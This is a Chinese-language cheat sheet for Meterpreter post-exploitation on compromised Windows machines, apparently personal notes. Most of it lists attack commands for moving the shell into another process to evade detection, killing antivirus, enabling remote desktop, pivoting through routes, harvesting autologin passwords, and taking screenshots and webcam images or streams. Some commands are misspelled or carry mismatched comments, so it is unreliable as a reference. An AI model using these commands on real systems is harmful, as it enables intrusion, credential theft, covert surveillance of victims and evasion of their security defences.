 作为`溢出成功以后的`攻击载荷使用，攻击载荷在溢出攻击成功以后给我们返回一个控制通道。使用它作为攻击载荷能够获得目标系统的一个Meterpreter shell的链接
https://www.cnblogs.com/backlion/p/9484949.html
```bash
Meterpreter shell作为渗透模块有很多有用的功能，比如添加一个用户、隐藏一些东西、打开shell、得到用户密码、上传下载远程主机的文件、运行cmd.exe、捕捉屏幕、得到远程控制权、捕获按键信息、清除应用程序、显示远程主机的系统信息、显示远程机器的网络接口和IP地址等信息。另外Meterpreter能够躲避入侵检测系统。在远程主机上隐藏自己,它不改变系统硬盘中的文件,因此HIDS[基于主机的入侵检测系统]很难对它做出响应。此外它在运行的时候系统时间是变化的,所以跟踪它或者终止它对于一个有经验的人也会变得非常困难。


# 优势
- 纯内存工作模式，不需要对内存进行写入操作
- 使用加密通信协议，且可以同时与几个信道通信
- 在被攻击进程内工作，不需要创建新的进程
- 易于在多进程之间迁移
- 平台通用
```

**进程迁移**
刚获取Meterpreter shell的时候，是脆弱的(用户随时可能关闭)，所以第一时间是移动shell，把它和一个稳定的进程绑定在一起，而不需要对磁盘进行任何写入操作(更不易被发现)
```bash
ps    # 获取目标正在运行的进程
getpid    # 查看Meterpreter shell的进程号
mirate 448    # 把shell移动到PID为448的进程里(因为这里这个稳定，看情况来吧)

getpid  # 发现shell的进程迁移OK(原来的进程会自动关闭，如果没关闭就手动关掉：kill xxx_pid)

# 自动迁移进程指令(系统会自动寻找合适的进程然后迁移)
run post/windows/manage/migrate
```



**常用命令**
```bash
########## 系统命令（收集系统信息）
systeminfo	# 查看系统信息
run post/windows/gather/checkv    # 检查是否为虚拟机
idletime    # 目标机器最近运行时间

ifconfig/ipconfig 	# 查看网卡信息
route	# 查看路由信息，设置路由（做跳板用）

background		# 把会话放到后台，这个会话继续保持
sessions     # 查看会话列表
sessions -i 2	# 进入切回会话2

getuid	# 获取当前用户id权限
run post/windows/manage/killav # 关闭杀毒(其他命令自己探索)
run post/windows/manage/enable_rdp # 开启目标机器的远程桌面

run post/windows/manage/autoroute # 查看目标机的本地子网情况
# 接着进行跳转
background # 把当前终端隐藏在后台
route add 192.168.0.111 255.255.255.0 1  # 给指定会话id添加路由(可以添加其他地址到被攻陷的机器的路由表上，借助被攻陷的机器来攻击其他网络)
route print    # 查看路由添加结果
# 接着查看
run post/windows/gather/enum_logged_on_users   # 列举当前有多少用户登录了主机
run post/windows/gather/enum_logged_on_users   # 继续列举安装在目标机器上的应用
run post/windows/gather/credentials/windows_autologin  # 很多用户习惯将计算机设置自动登录(抓取自动登录的密码)，如果看不到任何信息，就需要拓展插件Expia
load espia # 先加载该插件
screengrab    # 就可以抓取此时目标机器的屏幕截图
screenshot    # 也是截屏

webcam snap  # 打开目标机器摄像头，拍摄一张照片
webcam_stream  # 开始摄像头(直播模式)，在浏览器输入给出的url发那个问即可

```